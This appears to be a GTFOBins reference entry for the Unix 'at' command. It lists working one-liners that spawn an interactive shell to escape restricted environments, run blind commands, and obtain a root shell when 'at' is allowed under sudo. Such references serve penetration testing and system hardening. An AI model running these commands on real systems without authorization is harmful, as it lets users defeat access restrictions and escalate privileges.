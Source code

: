 # GTFOBin: at

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
```

## Command

It can be used to break out from restricted environments by running non-interactive system commands.

The invocation will be blind, but it is possible to redirect the output to a file in a readable location.

```
COMMAND=id
echo "$COMMAND" | at now
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | sudo at now; tail -f /dev/null
```
